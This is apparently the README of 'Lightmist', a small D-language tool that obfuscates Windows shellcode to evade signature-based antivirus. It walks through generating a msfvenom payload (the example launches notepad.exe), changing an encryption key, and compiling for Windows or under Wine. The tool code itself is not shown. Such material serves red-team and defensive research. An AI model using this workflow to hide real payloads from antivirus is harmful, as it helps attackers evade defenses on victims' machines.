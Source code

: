 =========
Lightmist
=========

Basic windows payload obfuscation in D. This should bypass most
signature-based AV without issue.

Usage
-----

1) Generate a shellcode, for example with msfvenom, in the `payload` file

.. code:: bash

    $ msfvenom -p windows/exec CMD=notepad.exe > payload

2) Modify the key in lightmist.d

.. code:: bash

    $ sed -i '/KEY/s/Some random string/Some other key/' lightmist.d

3) Get a windows D compiler from
   http://downloads.dlang.org/releases/2.x/2.094.1/dmd.2.094.1.windows.7z

4) Compile (make sure to choose an architecture compatible with your payload)

.. code:: bash

    # From Windows
    $ dmd.exe -m32 -J=%cd% lightmist.d

    # From Linux

    $ WINEPATH="$(winepath -w "dmd2/windows/bin")" \
        wine dmd.exe -m32 -J=. lightmist.d

License
-------

Copyright 2020 Cédric Picard - MIT License
